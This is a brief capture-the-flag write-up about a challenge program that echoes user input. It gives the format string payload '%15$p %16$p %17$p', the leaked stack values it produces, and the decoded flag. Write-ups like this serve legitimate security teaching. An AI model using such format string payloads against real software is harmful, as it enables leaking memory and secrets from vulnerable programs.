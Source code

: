 using input
%15$p %16$p %17$p

gives
0x6c33777b66746369 0x5f30745f336d3063 0x7d66746331

then use ChatGPT to convert to ASCII
}ftc1_0t_3m0cl3w{ftci

the flag is
ictf{w3lc0m3_t0_1ctf}

This version won't give any hints while chatting with LLM.
The only hint is that the program repeats back the input, thus, might be influenced by format string vulnerability.